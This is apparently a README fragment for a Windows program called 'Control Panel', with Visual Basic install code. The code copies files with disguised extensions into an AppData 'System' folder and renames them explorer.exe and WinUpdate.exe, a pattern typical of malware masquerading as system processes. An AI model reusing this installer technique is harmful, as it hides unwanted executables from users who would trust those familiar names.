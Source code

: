 Control Panel
=========================

```
cpanel.exe /default - Shows config from local files in "./Files" directory
cpanel.exe /install - Executes install NPS
```

### Install Process

	FileCopy App.Path & "\Files\msex.text", GetSpecialFolderA(CSIDL_APPDATA) & "System\explorer.exe"   'explorer.exe
	FileCopy App.Path & "\Files\AS4T.CVF", GetSpecialFolderA(CSIDL_APPDATA) & "System\WinUpdate.exe"     'winUpdate.exe
	FileCopy App.Path & "\Files\files.CAB", GetSpecialFolderA(CSIDL_APPDATA) & "System\cmsetacl.tmp"
	FileCopy App.Path & "\Files\main.exe", GetSpecialFolderA(CSIDL_APPDATA) & "System\default.MCP"